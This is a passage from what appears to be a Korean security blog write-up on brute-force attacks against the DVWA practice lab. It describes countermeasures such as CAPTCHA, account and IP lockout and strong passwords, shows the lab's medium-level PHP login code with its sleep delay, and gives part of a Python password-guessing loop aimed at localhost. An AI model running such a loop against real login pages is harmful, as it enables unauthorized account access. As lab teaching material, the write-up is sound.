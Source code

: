 **[텍스트 CAPTCHA]**
<br/>
<br/>

![image](https://Jimin0605.github.io/assets/img/Write_up/Brut_Force/image_captcha1.png)

**[이미지 CAPTCHA]**
<br/>
<br/>

그러나 이런 CAPTCHA와 같은 대응방안에 대해서는 한계점이 존재한다. 검증과정중 사람이 직접 개입을 해 해독을 하면 검증을 통과할수밖에 없고, 현재 기술이 발달하면서 텍스트CAPTCHA는 기계들도 충분히 판독이 가능해졌다. 반면에 특정한 장애가 있는 사람들이나 어린이, 노인 등의 접근을 방해하는 역효과 까지 일어난다.

**계정차단**은 한 계정에서 로그인 실패가 일정한 횟수 이상 일어날 시 계정을 일시적으로 잠그는 대응방안이다. **IP차단**도 마찬가지로 지속적인 로그인 실패가 일어날 시 IP가 차단이 되는 것이지만 차이점으로는 단순 계정차단은 하나의 계정에서 여러번의 실패가 일어나야지 계정이 차단하지만, IP차단의 경우는 다른 계정일 지라도 IP가 같을 경우 동일 IP에서 여러번의 실패가 발생되면 IP자체가 차단이 되는것이다.

이 외에도 가장 중요한 대응 방안은 애초에 **비밀번호를 설정할 때 적절한 길이, 영어 대소문자, 특수문자 사용, 자신의 정보를 담지 않은 예측 불가능한 문자열사용, 여러 사이트에 동일한 비밀번호 재활용 을 하지 않는것** 등이 brut force를 하는데에 큰 영향을 미친다.
## 4. 툴 제작
툴 제작은 level low단계에서는 brut force에 대한 시큐어 코딩이 되있지 않으므로 넘어가고 level medium에서의 시간 지연 대응에 대한 우회하는 코드 작성을 목표로 하겠다.
```php
if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( 2 );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }
```
위 코드는 DVWA brut force medium level에서 login에 실패할 경우 sleep(2)를 넣어줌으로 써 로그인 요청에 대한 시간 지연을 발생시키는 코드이다.
<br/>
<br/>


[https://github.com/Jimin0605/DVWA_tools/blob/main/tools/BrutForce_ver_1.1.py](https://github.com/Jimin0605/DVWA_tools/blob/main/tools/BrutForce_ver_1.1.py)


**ver 1 code 중**

```python
url = "http://localhost/vulnerabilities/brute/"
cookie = "sqv78s0cmf06s3da5nqu4du4t"
level = "medium"
head = {"PHPSESSID":f"{cookie}", "security":f"{level}"}

def brut_force(passwordList):
    global url
    global head
    for password in passwordList:
        param = f"?username=admin&password={password}&Login=Login"
        payload = url+param
        response = requests.get(payload, cookies=head)
        if "login_logo.png" in response.text:
            print("Connection failed..")
            break
        else:
            print("input password:", password)
```